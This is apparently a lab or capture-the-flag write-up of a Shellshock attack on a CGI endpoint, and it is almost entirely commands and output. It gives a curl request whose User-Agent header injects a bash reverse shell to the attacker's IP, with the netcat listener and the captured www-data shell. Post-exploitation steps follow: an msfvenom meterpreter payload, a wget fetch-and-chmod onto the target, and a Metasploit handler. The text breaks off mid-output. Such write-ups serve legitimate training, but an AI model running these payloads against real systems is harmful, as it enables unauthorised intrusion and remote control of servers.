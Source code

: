 ### reverse shell
#### start listener on attacker machine
```bash
$ nc -lvp 80
listening on [any] 80 ...
```

#### trigger reverse shell
```bash
$ curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/192.168.49.150/80 0>&1" http://192.168.150.87/cgi-bin/test
```

#### catch connection from server
```bash
$ nc -lvp 80      
listening on [any] 80 ...
192.168.150.87: inverse host lookup failed: Unknown host
connect to [192.168.49.150] from (UNKNOWN) [192.168.150.87] 43835
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ whoami
whoami
www-data
```

> Bam! We got a shell :-)
{: .prompt-info }

---

# post exploitation
## deploy `meterpreter`
### generate `meterpreter` payload
```bash
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.49.228 LPORT=443 -f elf > shell.elf
```

### provide payload via simple web server
```bash
$ python3 -m http.server 80                                                       
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

### upload `meterpreter` to target
```bash
www-data@ubuntu:/usr/lib/cgi-bin$ wget http://192.168.49.228/shell.elf -O /tmp/shell
www-data@ubuntu:/usr/lib/cgi-bin$ chmod +x /tmp/shell
```

### start `metasploit` listener on attacker machine
```bash
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
```